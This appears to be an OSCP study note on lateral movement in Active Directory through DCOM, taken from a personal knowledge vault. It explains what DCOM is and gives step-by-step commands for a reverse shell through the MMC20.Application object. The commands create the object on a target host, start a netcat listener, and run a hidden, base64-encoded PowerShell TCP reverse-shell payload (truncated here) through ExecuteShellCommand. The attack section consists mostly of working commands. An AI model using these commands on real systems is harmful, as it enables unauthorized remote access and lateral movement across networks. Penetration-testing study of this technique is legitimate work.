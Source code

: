 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/6. DCOM/"}
---
```


----------
- Distributed Component Object Model
- Originally a system for creating software components that interact with each other
- Now extended for interaction between computers over a network
- Performed over RPC on TCP port 135
- Requires local administrator access
- Collection of DCOM lateral movement techniques: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### DCOM MMC Reverse Shell:
1. Generate encoded Powershell payload using python script.
2. Start elevated powershell.
3. Initiate MMC 2.0 application and set target ip:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))
```
2. Start netcat listener.
3. Execute the application and specify process:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

